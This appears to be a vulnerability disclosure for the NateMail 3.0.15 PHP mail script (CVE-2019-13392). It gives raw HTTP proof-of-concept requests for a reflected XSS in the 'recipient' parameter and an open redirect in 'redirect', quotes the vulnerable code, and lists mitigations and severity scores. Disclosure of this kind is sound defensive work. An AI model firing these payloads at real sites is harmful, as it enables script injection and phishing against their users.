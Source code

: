 ```yaml
---
type: article
title: NateMail Vulnerabilities – CVE-2019-13392
tags: [XSS, Open Redirect ]
date: 2019-10-15
author: Eno Leriand
featuredImage: https://lh3.googleusercontent.com/VmQl2-hDYUd_mV2nZ8VIxsvsgxMy2nTmTVWC6dZnNnVoVPDaYFGKUPfheIfXpXOG7hdUu8L2bq9bH-hux87Me3xd=h700
---
```


The NateMail version 3.0.15 PHP Script contains vulnerabilities allowing an XSS attack and an open redirect. Although the developer has not updated this script in years, you can find a copy of the library if you wish to verify these findings.
Given that copies of this library are limited, and the remediation steps are straightforward, this post details the vulnerabilities with some recommendations for mitigations.

**Note**: MITRE will not assign a CVE ID for the open redirect vulnerability. For more information on CVE assignments, see the reference here.

### Detailed Information

A reflected Cross-Site Scripting (XSS) vulnerability exists in the NateMail application, where an attacker can execute JavaScript in a victim’s browser using a crafted `POST` request.

The application reflects any input not matching the required integers within the `recipient` array. Thus, injecting JavaScript outside of expected integer values enables the XSS attack.

### Exploit

To illustrate, the following benign payload alerts the `document.domain` in a user’s browser.

#### Raw HTTP Request

```http
POST /NateMail.php HTTP/1.1
Host: <Host/IP>
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 59

recipient=%3cscript%3ealert(document.domain)%3c%2fscript%3e
```

#### Raw HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
    <head>
        <title>Form Results</title>
        ...
        <span class="MPerror">No email address was found in the recipients list with key number "<script>alert(document.domain)</script>"
    </span>
</html>
```

### Affected URLs and Parameters / Limiting Factors

- **Parameter**: `recipient`
- **URL**: `NateMail.php`
- **Limitations**: The application does not require authentication; the main limitation is that a `POST` request is necessary.

### Recommendations

- **Sanitize** all user inputs and ensure they are output-encoded. Limit acceptable values in `recipient` to integers only, and encode any output on line 379 of `NateMail.php` to prevent JavaScript injection:
  
  ```php
  $errors .= "No email address was found in the recipients list with key number \"$thisRecipKey\"<br>$le";
  ```

---

## Severity 

- **Severity Level**: Medium  
- **CVSSv3 Score**: 6.1 (CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N)  
- **Damage Potential**: Attackers could use this vulnerability to launch attacks against the NateMail application, possibly compromising users’ browsers and systems.

### Reproducibility and Exploitability

- **Reproducibility**: Easily reproducible across all systems using NateMail up to version 3.0.15.
- **Exploitability**: Attack requires a crafted `POST` request, typically from a controlled form by the attacker. After the form submission, the attack proceeds automatically.

---

## URL Redirect to Untrusted Site (Open Redirect)

### Detailed Information

NateMail's redirect function fails to validate the destination URL, allowing attackers to redirect users to any arbitrary URL when a valid `recipient` ID (e.g., “0”) is included.

### Exploit

Below is an example where the redirect parameter is abused to redirect a user to Google:

#### Raw HTTP Request

```http
POST /NateMail.php HTTP/1.1
Host: <Host/IP>
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 46

recipient=0&redirect=http%3A%2F%2Fwww.google.com
```

#### Raw HTTP Response

```http
HTTP/1.1 302 Found
Location: http://www.google.com
Content-Type: text/html; charset=UTF-8
```

### Affected URLs and Parameters / Limiting Factors

- **Parameter**: `redirect`
- **URL**: `NateMail.php`
- **Limitations**: No authentication is required, but a `POST` request is needed.

### Recommendations

- **Whitelist URLs** in `redirect` to a predefined list of trusted URLs. Ensure validation checks and headers are in place on line 638 of `NateMail.php`.

```php
        if ($redirect != "") {
            $printHTML = false;
            if ($redirect_type == "include") {
                include("$redirect");
                } else if ($redirect_type == "query") {
                $queryArray = "";
                $q = 0;
                for ($n=0; $n<count($displayArray); $n++) {
                    if ($displayArray[$n]['value'] != "") {
                        $queryPair = MPParseRedirectData($displayArray[$n]['key'])."=".MPParseRedirectData($displayArray[$n]['value']);
                        if ($queryPair != "=") {
                            $queryArray[$q] = $queryPair;
                            $q++;
                            }
                        }
                    }
                $redirectPage = "Location: $redirect";
```

## Severity 

- **Severity Level**: Medium  
- **CVSSv3 Score**: 6.1  
- **Damage Potential**: Phishing attacks, possible malware distribution, and other social engineering attacks leveraging this redirect vulnerability.

### Reproducibility and Exploitability

- **Reproducibility**: Easily reproduced on any system with NateMail version 3.0.15 or earlier.
- **Exploitability**: Attack requires a `POST` request and the user’s click on a crafted phishing link.

## Conclusion

Although these vulnerabilities are straightforward, they illustrate the importance of regular security practices in legacy code. For anyone using or developing based on NateMail, implementing these fixes will mitigate the issues described above. 
